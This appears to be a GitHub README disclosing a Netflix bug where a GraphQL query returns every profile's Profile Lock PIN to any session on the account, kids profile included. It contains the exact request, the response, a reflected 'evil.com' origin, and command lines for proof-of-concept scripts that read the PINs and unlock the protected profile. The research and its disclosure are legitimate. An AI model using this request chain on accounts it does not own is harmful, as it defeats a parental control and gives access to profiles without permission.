


# Netflix Profile Lock: the PIN is in the response

> One GraphQL query returns every profile's Profile-Lock PIN in cleartext, to any
> profile's session on the account — including a kids profile. The value it returns
> is the real unlock credential.
> Write-up: **https://shoo0lin.github.io/posts/profile-lock-pin.html**



Netflix's Profile Lock is a parental control: a four-digit PIN is supposed to stop
other people on a shared household account — most of all a child on a kids profile —
from opening a protected profile. The gate enforces that. The query underneath it
hands the combination to whoever asks.

```http
POST /graphql HTTP/2
Host: www.netflix.com
Content-Type: application/json
Origin: https://evil.com

{"operationName":"ProfileLockTemplate","variables":{},
 "extensions":{"persistedQuery":{"id":"d821963d-5bb5-43c7-a2d1-2cf7eab9f44e","version":102}}}
```

```json
HTTP/2 200
access-control-allow-origin: https://evil.com
access-control-allow-credentials: true

{"data":{
  "currentProfile":{"guid":"NIADRLI3","name":"kids"},
  "growthAccount":{"profiles":[
    {"guid":"VCWJWTGR","name":"owner",        "lockPin":null},
    {"guid":"OTSWWYH4","name":"protected",    "lockPin":"0978"},
    {"guid":"6DYO5LFG","name":"second adult", "lockPin":null},
    {"guid":"WSDEM6QW","name":"spare",        "lockPin":null},
    {"guid":"NIADRLI3","name":"kids",         "lockPin":null}
  ]}}}
```

No enumeration, no brute force, no second call. `lockPin` is a nullable string on the
`Profile` type and the client template selects it; the resolver fills it in for every
profile in `growthAccount.profiles`, whoever is signed in. The Android client's model
agrees it is a plain string: `kotlin/C19159hyi.java` field `l`,
`kotlin/C19161hyk.java:586-588`.

The same session then walks to the protected profile:



## The read is ungated; the write is not

| Path | Behaviour |
|---|---|
| `ProfileLockTemplate` → `lockPin` | returns the PINs of **all** profiles, to **any** profile session |
| `growthSetProfilePin` / `growthRemoveProfilePin` | `PERMISSION_DENIED` — *"Access is denied for passport"* (origin `passport`) |

So the system already knows this secret needs a gate. It put one on the mutation
pair and left the query open. The missing decision is a sentence long: *a session may
read the PIN of the profile it is already on, and only after presenting it once.*

## Controls

Run against the same account, same target profile, same cookie file:

| Control | Result |
|---|---|
| Same query, no session cookie | `UNAUTHENTICATED` (`origin: consumeridentitydgs`), `growthAccount: null` |
| Locked tile, no PIN submitted | **BLOCKED** — stays on the kids profile |
| Locked tile, wrong PIN | **BLOCKED** — stays on the kids profile |
| Locked tile, the disclosed PIN | **UNLOCKED** — `pg` becomes the protected GUID, `/browse` renders as that profile |

The lock is genuinely enforced at the gate. That is what makes the read a bug rather
than a design choice: the PIN is treated as a credential everywhere except where it
is handed out.

Reproduced from two independent non-owner profiles, one of them the kids profile.

## Severity, and the boundary

`CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:L/A:N` = **7.1 High**.

| Capability | Status | Why |
|---|---|---|
| Read every profile's PIN | **proven** | the finding |
| Open the protected profile with it | **proven** | `pg` transition, `/browse` as that profile |
| Cross an **account** boundary | no | the query is session-bound; without cookies it is `UNAUTHENTICATED` |
| Read a PIN from outside the household | no | requires a session on the same account |
| Change or remove a PIN | no | write path is `PERMISSION_DENIED` |

The boundary it does cross is the one the feature exists to defend: an account's
lowest-privileged profile can read the credential that protects the highest. Seven
rather than nine because the attacker must already be inside the account — which is
precisely the threat model Profile Lock was sold to answer.

Cross-site reach is a separate question and is not claimed here: the endpoint reflects
arbitrary origins with credentials, but `NetflixId` is `SameSite=Lax` and
`SecureNetflixId` is `SameSite=Strict`, so a third-party page cannot carry the session
in a current browser. That is a browser mitigation, not a server-side one.

## Run it against your own account

You need a session on the account, a cookie string exported from your browser
(`NetflixId=…; SecureNetflixId=…`). Nothing here works without one.

```console
$ export CHROME_BIN=/usr/bin/google-chrome      # Playwright's browser, if you prefer
$ pip install -r requirements.txt

# 1. read the PINs (masked by default; --show-pins to print the digits)
$ python3 poc/lockpin_read.py --cookies cookies.txt --confirm-own-account
session profile (pg): NIADRLI3...
POST /graphql  ProfileLockTemplate  v102  ->  HTTP 200
profiles returned: 5
  VCWJWTGR...  owner             lockPin=null
  OTSWWYH4...  protected         lockPin=set (4 chars)  <-- populated in cleartext
  ...
1 of 5 profiles returned a PIN to this session (kids).

# 2. the negative control for the read
$ python3 poc/lockpin_read.py --no-cookie --confirm-own-account
error: UNAUTHENTICATED   (origin: consumeridentitydgs)
growthAccount: null -- no account behind this request

# 3. controls at the gate, then the real thing
$ python3 poc/controls.py --cookies cookies-kids.txt --target <protected-guid> --mode no-pin --confirm-own-account
$ python3 poc/controls.py --cookies cookies-kids.txt --target <protected-guid> --mode wrong  --confirm-own-account
$ python3 poc/unlock_with_pin.py --cookies cookies-kids.txt --target <protected-guid> --pin <the-value> --confirm-own-account
RESULT: UNLOCKED
```

`<protected-guid>` is the full 30-character GUID of the locked profile, as returned by the
query above. `lockpin_read.py` is standard library only; the two gate scripts drive a real browser
through Playwright, because the gate decides in the client and the `pg` cookie is the
evidence.

All three refuse to run without `--confirm-own-account`, and `controls.py` exits
non-zero if a control does not behave as expected, so a broken harness fails loudly
instead of quietly "proving" something.

If you try this on your own account: remove the lock afterwards, or reset the PIN.
The write path allows you to, as the account owner.

## What this repository is not

It is not a cross-account tool. There is no credential harvesting, no session theft,
no enumeration of accounts, and no automation that acts on anybody else's data. Every
script needs a cookie file you supply for an account you control.

The four-digit value in `evidence/response.redacted.json` is left in place because it
is the finding, and the lock it belonged to has since been removed. Profile names are
replaced with their roles on the account; GUIDs are truncated to eight characters;
avatars, e-mails and the device list are removed.

The harnesses are the ones used in the field run, with hard-coded paths replaced by
flags and output redacted for publication. They were not re-run against the live
service for this repository; the transcripts and captures are from the 2026-10-23 run.

## Media

| File | What it is |
|---|---|
| `media/00-cover-reconstruction.png` | **reconstruction**, not a capture — the response shape, redrawn |
| `media/01-response.png` | field capture, terminal, names and GUIDs masked |
| `media/02-gate-transcript.png` | field capture, terminal, GUID masked, `RESULT: UNLOCKED` intact |
| `media/03-gate-poster.jpg` | frame from the clip: the PIN gate, name row masked |
| `media/04-gate-clip.mp4` | 14 s field capture, edited for length and redacted |
| `media/make-clip.sh` | the ffmpeg edit, with every mask coordinate and its own OCR leak check |

The source recording is 4m14s and mostly terminal output full of full GUIDs and quoted
profile names, so it is not published. The published cut keeps the two segments that
carry the evidence — the gate, and the block of five rows with one populated `lockPin`
— and obscures every identifier in them. `make-clip.sh` re-runs that edit and fails if
OCR finds a GUID or a profile name in any frame, or if the PIN and the `RESULT` line
stop being readable.

## Layout

```
poc/profiles.py            cookie parsing, pg extraction, persisted-query POST
poc/lockpin_read.py        the read: every lockPin from a session you own
poc/unlock_with_pin.py     the chain finisher: gate, PIN, pg transition
poc/controls.py            no-PIN / wrong-PIN / right-PIN controls
evidence/response.redacted.json   trimmed field response
evidence/gate-transcript.txt      field transcript, GUIDs truncated
media/                     captures, reconstruction, clip, and the edit script
```

## Licence

MIT — see [LICENSE](LICENSE).

Not affiliated with or endorsed by Netflix. Netflix is a trademark of Netflix, Inc.
This is independent security research on my own account, published after the finding
was reported through the programme.
